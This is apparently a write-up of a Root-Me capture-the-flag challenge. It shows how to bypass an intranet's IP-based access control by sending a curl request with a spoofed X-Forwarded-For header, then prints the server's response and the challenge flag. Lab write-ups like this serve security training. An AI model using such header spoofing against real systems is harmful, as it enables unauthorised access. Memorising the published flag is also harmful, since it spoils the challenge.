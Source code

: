 ```yaml
---
title: HTTP - IP restriction bypass
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation]
---
```


* Points: 10
* Link: [https://www.root-me.org/en/Challenges/Web-Server/HTTP-IP-restriction-bypass](https://www.root-me.org/en/Challenges/Web-Server/HTTP-IP-restriction-bypass)

## Statement

> Dear colleagues,  
> We’re now managing connections to the intranet using private IP addresses, so it’s no longer necessary to login with a username / password when you are already connected to the internal company network.  
> Regards,  
> The network admin

## Solution

Visit the site, we cannot login to it. But we do see a title:
```html
Your IP ::ffff:xxx.xxx.xx.xxx do not belong to the LAN.
```

So I try with some IPs address: ```127.0.0.1```, ```192.168.1.0```, ... and I found ```192.168.1.0``` works.

```sh
curl -H "X-Forwarded-For: 192.168.1.0" http://challenge01.root-me.org/web-serveur/ch68/
```

```html
<!DOCTYPE html>
<html>
<head>
        <title>Secured Intranet</title>
</head>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
                        <h1>Intranet</h1>
                <div>
                        Well done, the validation password is: <strong>Ip_$po0Fing
</strong>
                </div>
        </body>
</html>
```

The flag is
```
Ip_$po0Fing
```
